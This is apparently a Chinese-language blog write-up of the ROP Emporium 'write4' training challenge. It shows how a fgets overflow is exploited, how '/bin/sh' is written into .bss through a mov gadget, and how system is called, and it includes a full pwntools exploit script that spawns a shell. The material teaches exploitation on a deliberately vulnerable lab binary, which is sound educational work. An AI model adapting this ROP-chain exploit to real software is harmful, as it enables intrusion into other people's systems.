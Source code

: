 ```yaml
---
title: ROP Emporium の write4
date: 2020-06-02 12:06:01
categories:
- WriteUPs
- ROP Emporium
tags:
- PWN
- ROP
- Stack
---
```

## Introduction

&emsp;&emsp;[ROP Emporium](https://ropemporium.com)训练3：write4的解析。

<!-- more -->

## write432

### Step 1

&emsp;&emsp;程序正常运行截图：

![](/img/write4/write4-1.png)

&emsp;&emsp;checksec：32位程序，只开启了DEP保护,依然是用ROP Chain解决DEP保护的问题

![](/img/write4/write4-2.png)

### Step 2

&emsp;&emsp;把程序丢到hopper中看下，发现依然有pwnme函数，依然是fgets函数存在溢出漏洞。

![](/img/write4/write4-3.png)

&emsp;&emsp;同时程序中程序中依然存在system函数，可以执行系统命令：

![](/img/write4/write4-4.png)

&emsp;&emsp;以及一个usefulFunction函数：

![](/img/write4/write4-5.png)

&emsp;&emsp;但是函数只能看到有什么文件而无法看到flag.txt文件里有什么内容。

&emsp;&emsp;有了system函数我们就想着去找’/bin/sh’或者’/bin/cat flag.txt’字符串：

![](/img/write4/write4-6.png)

&emsp;&emsp;意料之中的啥也没有，那么在结合题目给我们的提示，可能我们得自己往内存中写入‘bin/sh’字符串。

### Step 3

&emsp;&emsp;找一下系统中的段，把数据写入.data或者.bss的段中去：

![](/img/write4/write4-7.png)

&emsp;&emsp;看了下这两个段发现均无任何数据且均具有写权限所以写到任意那个地方都是可以的，只要内存区域的大小够即可：

![](/img/write4/write4-8.png)

&emsp;&emsp;下一步就要考虑怎么写数据，在程序的函数中发现这样一个有趣的函数：

![](/img/write4/write4-9.png)

&emsp;&emsp;通过这个函数我们可以向内存中写入数据，但是我们还需要一个指令段控制edi和ebp，所以通过ROPgadget找一下：

![](/img/write4/write4-10.png)

### Step 4

&emsp;&emsp;整个ROP Chain的构造及运行示意图如下：

![](/img/write4/write4-11.png)

&emsp;&emsp;最后就是构造payload了，32位程序还有一点需要注意就是每次只能写入dword也就是4字节，所以’/bin/sh’需要分成两次写入，下面直接给出EXP脚本：

```Python
* # coding:utf-8
* from pwn import *
* 
* sh = process('./write432')
* elf = ELF('./write432')
* 
* bss_addr = 0x0804a040 #.bss段开始的地址
* sys_addr = elf.symbols['system'] #system函数入口地址
* mov_addr = 0x08048670 #把字符串写入.bss段的sub_8048670函数入口地址即mov dword [edi], ebp ; ret
* pop_addr = 0x080486da #控制edi和ebp指令段地址即pop edi ; pop ebp ; ret
* 
* payload = 'a' * (0x28 + 0x4) #padding
* payload += p32(pop_addr) + p32(bss_addr) + '/bin' + p32(mov_addr) #第一次写入
* payload += p32(pop_addr) + p32(bss_addr+ 4) + '/sh\0' + p32(mov_addr) #第二次写入，注意截断符(‘\0’或者‘\x00’都可以）
* payload += p32(sys_addr) + p32(0xdeadbeef) + p32(bss_addr) #调用system函数执行/bin/sh
* 
* sh.recvuntil('>')
* sh.sendline(payload)
* 
* sh.interactive()
* sh.close()
```

&emsp;&emsp;EXP运行截图：

![](/img/write4/write4-12.png)

## write4

&emsp;&emsp;64位程序和32位程序基本一致，只不过在传入数据的时候可以一次性传入’/bin/sh\0’，这样更加简单。

&emsp;&emsp;其他的部分和32位程序毫无差别，有兴趣可自行尝试，这里就不详细赘述了。

## P.S.

&emsp;&emsp;也许会纳闷在程序中有一个usefulFunction的函数，执行的是‘/bin/ls’的命令。那么既然本题我们可以向内存中写入字符串，那么是否可以修改这个函数的命令实现get shell呢。

&emsp;&emsp;实际是不可以的，因为在程序中我们可以看到这个函数中的参数放在.rodata这个段，顾名思义这是read only的数据段，是没有写入权限的，所以无法通过修改usefulFunction函数的参数实现。

![](/img/write4/write4-13.png)

![](/img/write4/write4-14.png)
